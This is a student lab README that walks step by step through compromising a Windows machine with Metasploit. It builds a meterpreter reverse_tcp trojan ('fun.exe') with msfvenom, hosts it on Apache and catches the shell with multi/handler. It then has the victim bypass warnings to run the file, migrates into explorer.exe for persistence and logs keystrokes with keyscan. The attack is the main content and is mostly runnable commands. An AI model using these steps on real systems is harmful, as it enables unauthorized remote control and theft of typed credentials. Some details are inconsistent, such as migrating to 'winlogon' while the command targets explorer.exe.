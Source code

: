 
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
# 12-04-2025
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/user-attachments/assets/2f69d906-0b7a-4878-8f96-272bacc10e00)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/user-attachments/assets/88b39238-d2b6-447d-bc46-08dc30ccab8e)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT
![image](https://github.com/user-attachments/assets/5034838b-e3d2-4f9f-b645-21b5c8ecdcba)

Start apache server
sudo systemctl apache2 start
## OUTPUT
![image](https://github.com/user-attachments/assets/7cb75fb5-6fa0-449a-8b21-e8f8b2fb6fcf)

Check the status of apache2
## OUTPUT
![image](https://github.com/user-attachments/assets/d8909df4-12f7-4a3a-888f-f8891c81c5e9)

Invoke msfconsole:
## OUTPUT:
![image](https://github.com/user-attachments/assets/9d3f4d70-6d31-454a-81e8-105eb0224090)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT:
![image](https://github.com/user-attachments/assets/ffd46926-d6b7-4ad2-8df4-26cd01a10af1)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT:
![image](https://github.com/user-attachments/assets/e92d7605-0cdd-4a60-9fbc-f87490d37a9f)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
## OUTPUT:
![image](https://github.com/user-attachments/assets/2094ca08-d751-4add-af92-0ab1d0d1da53)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT:
![image](https://github.com/user-attachments/assets/e61066d7-12fb-4942-9f01-3906941f7c47)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:
![image](https://github.com/user-attachments/assets/fd50817c-df2b-40e2-bcb3-920d2baa5da0)

keyscan_dump Shows the keystrokes captured so far
## OUTPUT:
![image](https://github.com/user-attachments/assets/a5ce96df-cd40-4772-b531-90cf2462d6bf)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
